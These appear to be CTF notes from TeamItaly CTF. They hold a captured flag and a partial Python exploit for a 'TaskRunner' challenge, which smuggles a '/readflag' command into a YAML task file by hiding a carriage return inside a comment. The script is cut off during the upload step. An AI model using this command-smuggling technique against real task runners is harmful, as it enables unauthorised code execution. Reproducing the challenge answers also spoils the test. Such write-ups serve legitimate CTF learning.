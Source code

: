 ```yaml
---
tags: 
references:
---
```

# Active King
#svelte `__data.json`
`TeamItaly{7h3re_15_n0_5h0r7cu75!_0nly_h4rD_w0rK_5c36f4f5c7a32d65}`
# TaskRunner
#yam #parser
- task vs yaml parser diff https://github.com/eemeli/yaml/issues/595

exploit:
```python
#!/usr/bin/env python3
import requests
import json
import tempfile
import os

# Configuration
BASE_URL = "https://96cf5e742b547462.challenge02.it/"
USERNAME = "hacker1111111111111"
PASSWORD = "password1231111111111"
# template = "traceroute"
template = "date"

def login(session):
    login_data = {
        "username": USERNAME,
        "password": PASSWORD
    }
    
    response = session.post(f"{BASE_URL}/api/login", json=login_data)
    if response.status_code == 200:
        print(f"✓ Logged in successfully as {USERNAME}")
        return True
    else:
        print(f"✗ Login failed: {response.text}")
        return False

def create_disk_exploit_yaml():
    malicious_yaml = """version: 3
tasks:
  task:
    cmds:
      - date #\r      - /readflag
"""
    return malicious_yaml

def upload_malicious_file(session, yaml_content):
    """Upload the malicious YAML file"""
    global template
    with tempfile.NamedTemporaryFile(mode='w', suffix='.yaml', delete=False) as f:
        f.write(yaml_content)
        temp_file = f.name
    
    try:
        with open(temp_file, 'rb') as f:
            files = {'file': ('malicious.yaml', f, 'text/yaml')}
```